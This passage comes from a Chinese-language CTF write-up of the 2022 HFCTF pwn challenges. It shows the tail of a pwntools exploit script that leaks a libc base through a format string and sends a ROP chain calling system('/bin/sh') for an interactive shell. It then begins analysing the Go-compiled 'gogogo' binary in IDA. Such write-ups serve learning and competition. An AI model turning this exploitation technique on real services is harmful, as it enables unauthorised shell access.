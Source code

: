     gdb.attach(io)

    io.send(fmt)



    #gdb.attach(io)

    io.recvuntil(b'Good luck to you.\n')



    libc_base = int(io.recv(12),16) - 0x61d6f

    system = libc_base + libc2.sym['system']

    binsh = libc_base + next(libc2.search(b'/bin/sh'))

    print("libc")

    print(hex(libc_base))

    pop_rdi = 0x23b72

    ret = 0x22679 

    ropchain = p64(0xdeadbeef) + p64(ret+libc_base) + p64(pop_rdi+libc_base) + p64(binsh) + p64(system)



    io.sendline(ropchain)

    io.interactive()




## gogogo<br>
这道题嘛，与其说是pwn，更像re

一开始先跑一下它

![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-3-25-2022HFCTF_pwn_gogogo/1.png)

看样子是让我们输入一些东西的

拖入IDA进行分析，我用的IDA版本是7.6，这时候IDA已经开始了对go编写的代码的反编译支持，然而这个支持并不是很好，在IDA中我们看到main_main函数（一般情况下这是程序的主函数，但是这次情况并不相同，稍后再说）


![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-3-25-2022HFCTF_pwn_gogogo/3.png)

虽然能看出大概用了什么函数，但是里面的参数我们是看不到的。究其原因，是go语言编译的汇编代码，它的传参方式和传统的标准不同。举个简单的例子

![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-3-25-2022HFCTF_pwn_gogogo/4.png)

它调用printf时，用的寄存器顺序和传统的64位linux程序不同，所以ida识别不出它的参数

这让我们在分析函数的时候造成了很大的麻烦。暂时没找到很好的办法

然后看它的逻辑，输入305419896有惊喜

![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-3-25-2022HFCTF_pwn_gogogo/5.png)
